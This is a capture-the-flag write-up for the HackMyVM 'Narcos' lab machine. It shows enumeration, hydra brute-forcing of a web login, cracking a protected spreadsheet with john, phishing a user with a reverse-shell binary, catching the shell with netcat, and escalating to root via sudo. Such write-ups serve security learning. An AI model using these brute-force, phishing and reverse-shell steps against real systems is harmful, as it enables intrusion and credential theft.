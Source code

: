 ```yaml
---
title: "Narcos - HackMyVM Walkthrough"
---
```


nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ nmap -p- -sV 192.168.56.254
--SNIP--
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We're greeted by the landing page of an eCommerce store advertising drugs when visiting the site. Let's run gobuster on the webserver and enumerate the directories and 
possible files:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,jpg,png -u http://192.168.56.254    
/index.html           (Status: 200) [Size: 11550]
/images               (Status: 301) [Size: 317] [--> http://192.168.56.254/images/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.254/js/]    
/squirrelmail         (Status: 301) [Size: 323] [--> http://192.168.56.254/squirrelmail/]
/bootstrap            (Status: 301) [Size: 320] [--> http://192.168.56.254/bootstrap/]
{% endhighlight %}

Navigating to the squirrelmail directory presents us with a webmail login form. 
The SquirrelMail version is 1.4.23, so let's use searchsploit to find available 
exploits: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ searchsploit squirrelmail | grep 1.4
SquirrelMail 1.4.2 Address Add Plugin - 'add.php'  | php/webapps/26305.txt
Squirrelmail 1.4.x - 'Redirect.php' Local File Inc | php/webapps/27948.txt
SquirrelMail 1.4.x - Folder Name Cross-Site Script | php/webapps/24068.txt
SquirrelMail 3.1 - Change Passwd Plugin Local Buff | linux/local/1449.c
SquirrelMail < 1.4.22 - Remote Code Execution      | linux/remote/41910.sh
SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Over | php/webapps/43830.txt
SquirrelMail < 1.4.7 - Arbitrary Variable Overwrit | php/webapps/43839.txt
{% endhighlight %}

As the version is 1.4.23, let's see if the remote code execution bash script still
works. Browsing the source code reveals that this script runs against version 1.4.23, but we need to have login credentials.. The same applies for the 'Redirect.php' 
LFI exploit. 

After consulting a walkthrough for a hint, it pointed me in the direction of 
subdomain enumeration. Let's add "escobar.hmv" to our `/etc/hosts` and bruteforce 
for subdomains: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -q -u http://escobar.hmv 
Found: management.escobar.hmv (Status: 200) [Size: 4245]
{% endhighlight %}

Let's add "management.escobar.hmv" to `/etc/hosts` and take a look at the site. 
Checking the source code reveals the version number of 2.9.0 for a web based 
file browser called "File Browser". 
Details about the software can be found here:https://filebrowser.org/

Browsing the https://filebrowser.org/installation page gets us the default 
credentials of `admin:admin`. 
After an attempt to login it turns out the password isn't a default so we have to 
brute force it. 

We'll need to capture the login form request with burp proxy. 

Request:
{% highlight text %}
POST /api/login HTTP/1.1
Host: management.escobar.hmv
Content-Length: 54
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://management.escobar.hmv
Referer: http://management.escobar.hmv/login?redirect=%2Ffiles%2F
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"username":"admin","password":"admin","recaptcha":""}
{% endhighlight %}

Let's build the hydra command: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt management.escobar.hmv http-post-form '/api/login:{"username"\:"^USER^","password"\:"^PASS^","recaptcha"\:""}:Forbidden'
{% endhighlight %}

Hydra runs for a while then we get the password:
{% highlight terminal %}
[80][http-post-form] host: management.escobar.hmv   login: admin   password: gabriela
{% endhighlight %}

After logging in I downloaded and unzipped the `personal` and `works` zip files:
{% highlight text %}
Archive:  personal.zip
   creating: personal/
 extracting: medellingang.jpg        
 extracting: gonzalorodriguez(potrait).png

Archive:  works.zip
   creating: works/
 extracting: logins.xlsx             
 extracting: ledger.xlsx
{% endhighlight %}

the `logins.xlsx` file is password protected, so we'll need to crack it with `john`.
We'll need to download "office2john.py": 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/office2john.py
{% endhighlight %}

Generate the hash file to crack:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ python office2john.py logins.xlsx > logins.hash 
{% endhighlight %}

Use john to crack the hash using the rockyou wordlist:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt logins.hash
{% endhighlight %}

It found a password in no time, let's see what it is:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ john --show logins.hash                                                     1 ⨯
logins.xlsx:money1

1 password hash cracked, 0 left
{% endhighlight %}

Browsing the excel sheet gives us another subdomain to add to the /etc/hosts file:
elcorreo.escobar.hmv

We also get the login information of all the users. After poking around in the emails of the cartel members, it turns out we need to phish one of the other users into 
downloading an update binary. Here's where the reverse shell code is hosted:
https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

We then use the secret code, add the binary as an attachment and send the email 
after setting up the reverse shell listener. 

Catching the connection and spawning a better shell:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/narcos]
└─$ nc -nlvp 6666
listening on [any] 6666 ...
connect to [192.168.56.224] from (UNKNOWN) [192.168.56.254] 35528
python3 -c 'import pty; pty.spawn("/bin/bash");'
carlos@narcos:/home/carlos$
{% endhighlight %}

Let's try using the credentials from the logins file to switch users to pablo:
{% highlight terminal %}
carlos@narcos:/home/carlos$ su pablo
su pablo
Password: Il0ve$$$yeah!

bash: /usr/bin/lesspipe: /bin/sh: bad interpreter: Permission denied
Traceback (most recent call last):
  File "/home/pablo/2fa.py", line 15, in <module>
    screen  = curses.initscr()
  File "/usr/lib/python3.5/curses/__init__.py", line 30, in initscr
    fd=_sys.__stdout__.fileno())
_curses.error: setupterm: could not find terminal
{% endhighlight %}

After the script runs and fails we still get to access the pablo account but are 
limited by a 2fa script. After cat-ting the script I discovered a password:
`pabloEncryPt10nz`

{% highlight terminal %}
pablo@narcos:~$ su pablo
su pablo
Password: Il0ve$$$yeah!

bash: /usr/bin/lesspipe: /bin/sh: bad interpreter: Permission denied
	 ********************************************
	* All empires are created of blood and fire  *
	* I leave it here incase: srvrrVhiupJz10qq   *
	* Hint : VINEGAR 			     *
	* IF I FORGOT : aaaa-zzzz		     *
	* Arrghh who cares: pablo***********	     *
	 ********************************************
Enter Real Password : pabloEncryPt10nz
pabloEncryPt10nz
Welcome Don Pablo
pablo@narcos:~$ 
{% endhighlight %}

checking the sudo privileges for pablo and getting the root flag:
{% highlight terminal %}
pablo@narcos:~$ sudo -l
sudo -l
[sudo] password for pablo: Il0ve$$$yeah!

Matching Defaults entries for pablo on narcos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pablo may run the following commands on narcos:
    (ALL : ALL) ALL
pablo@narcos:~$ sudo -i
sudo -i
root@narcos:~# ls
ls
root.txt
root@narcos:~# cat root.txt
cat root.txt
.__   __.      ___      .______        ______   ______        _______.
|  \ |  |     /   \     |   _  \      /      | /  __  \      /       |
|   \|  |    /  ^  \    |  |_)  |    |  ,----'|  |  |  |    |   (----`
|  . `  |   /  /_\  \   |      /     |  |     |  |  |  |     \   \
|  |\   |  /  _____  \  |  |\  \----.|  `----.|  `--'  | .----)   |
|__| \__| /__/     \__\ | _| `._____| \______| \______/  |_______/

{% endhighlight %}

I submitted the flags and got the points. Hooray for points.

